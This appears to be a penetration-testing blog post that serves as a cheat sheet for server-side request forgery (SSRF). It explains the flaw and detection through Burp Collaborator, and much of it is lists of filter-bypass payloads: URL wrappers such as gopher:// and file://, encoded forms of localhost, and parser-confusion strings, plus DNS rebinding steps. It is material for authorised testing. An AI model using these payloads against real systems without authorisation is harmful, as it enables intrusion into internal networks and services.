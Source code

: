 ```yaml
---
layout: blog_item
title: "SSRF Cheat Sheet & Bypass Techniques"
date:   2021-05-30 09:29:10
author: Arr0way
description: 'SSRF explained and the techniques to indentify, and bypass server side SSRF filtering.'
categories: [cheat-sheet]
tags:
- SSRF
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is SSRF? 

Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality. 

Another way to think of this would be to imagine the web applications vulnerable function is a web browser, that will allow you to pivot / relay request to the internal interface addresses, loopback or internal network to access services (effectively traversing the WAF or firewall). 

An example of this could be a web function that allows the adding of a URL or third-party service, this could then be exploited to access internal or local IP address. 

After identifying SSRF on applications running modern frameworks or a WAF, more work will be required in an effort to defeat the protection / filtering that is in place, and allow for successful SSRF exploitation. 

<!--more-->


## Identifying Potential Locations for SSRF

Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

## How to Find SSRF Vulnerabilities 

In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this is using Burp Collaborator. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control). 

<div class="note tip">
  <h5>PRO TIP: Run Your Own Collaborator Server</h5>
  <p>If you are taking part in bug bounty programs run your own Burp Collaborator  server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.</p>
    
    <p><a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode works great for this</a>, it's cheap, fixed price and has a direct public IP address.</p>
</div>

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.  

## Tips for filtered SSRF

### Timing Difference

At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP's or ports are being fitlered. 


### Wrappers

```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```
```
file:///, dict://, ftp://, gopher://
```

### Basic locahost bypass attempts 

Localhost bypass:

```
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
```

various bypasses: 

```
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
```


### hosts file bypass attempts 

### Enclosed Alphanumeric 

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```

## DNS rebinding attempts 

### What is a DNS rebinding attack?

In certain situations a target function may check a hostname "blindly" against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP. 

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack. 

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

1. go to https://lock.cmpxchg8b.com/rebinder.html add your IP's
2. check it works with host 
3. attempt to exploit the SSRF location with it


Happy hunting / pen testing. 
